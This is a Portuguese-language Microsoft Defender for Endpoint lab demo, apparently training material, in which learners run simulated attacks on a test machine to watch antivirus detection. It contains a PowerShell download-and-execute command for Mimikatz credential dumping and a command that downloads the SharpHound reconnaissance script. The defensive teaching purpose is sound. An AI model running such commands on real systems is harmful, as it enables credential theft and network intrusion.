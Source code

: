 # Demonstração do Módulo 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

**Observação** A conclusão bem-sucedida desta demonstração depende da conclusão de todas as etapas no [Documento de pré-requisitos](00-prerequisites.md).

## Ataques simulados

Nesta tarefa, você executará dois ataques simulados para explorar os recursos do Microsoft Defender para Ponto de Extremidade.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador, acesse o Microsoft Defender XDR em (<https://security.microsoft.com>) conectado como Administrador do seu locatário.

Você executará os ataques *simulados* usando o *PowerShell* em *WIN1* para explorar os recursos do Microsoft Defender para Ponto de Extremidade.

`Attack 1: Mimikatz - Credential Dumping`

1. No computador *WIN1*, digite **Command** na barra de pesquisa e selecione **Executar como administrador**.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: prompt de comando** e pressione **Enter** para executá-lo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Você verá uma mensagem com a informação *Acesso negado* e uma mensagem pop-up de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` exibindo *Ameaças encontradas*.

1. Saia da janela **Administrador: prompt de comando** digitando **sair** e pressionando **Enter**.

`Attack 2: Bloodhound - Collection`

1. No computador *WIN1*, digite **PowerShell** na barra de pesquisa, selecione **Windows PowerShell** e selecione **Executar como administrador**.

1. Copie e cole os comandos a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Observação:** Recomenda-se copiar, colar e executar os comandos um de cada vez. Você pode abrir o *Bloco de notas* e copiar os comandos em um arquivo temporário para fazer isso. O primeiro comando cria uma pasta chamada *ExternalPayloads* na mesma pasta onde a pasta *Atomic Red Team* está localizada. O segundo comando baixa o arquivo *SharpHound.ps1* do repositório GitHub do *BloodHound* e o salva na pasta *ExternalPayloads*.

1. Você verá uma mensagem pop-up de `Windows Security Virus and threats protection` exibindo o texto *Ameaças encontradas*.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Se a saída é *True*, o arquivo de payload de malware não foi removido pelo Microsoft Defender Antivirus. Se a saída é *False*, o arquivo de payload de malware foi removido pelo Microsoft Defender Antivirus. Use a tecla de seta para cima para repetir o comando até que a saída seja *False*.

## Você concluiu a demonstração
